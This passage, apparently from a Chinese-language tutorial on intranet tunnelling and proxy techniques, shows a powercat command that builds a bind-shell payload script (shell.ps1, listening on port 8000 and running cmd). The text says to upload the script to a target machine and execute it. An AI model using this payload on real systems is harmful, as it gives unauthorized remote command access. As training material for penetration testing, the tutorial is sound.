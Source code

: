 ![image-20241019232248704](内网隧道代理技术/image-20241019232248704.png)	

```
也可以自己提前生成好正向连接或者反向连接的payload脚本，这里以正向连接为例子
powercat -l -p 8000 -e cmd -v -g >> shell.ps1
```

![image-20241019232541099](内网隧道代理技术/image-20241019232541099.png)	

```
把生成shell.ps1脚本上传到靶机。
靶机执行即可
.\shell.ps1
```

![image-20241019233023494](内网隧道代理技术/image-20241019233023494.png)	
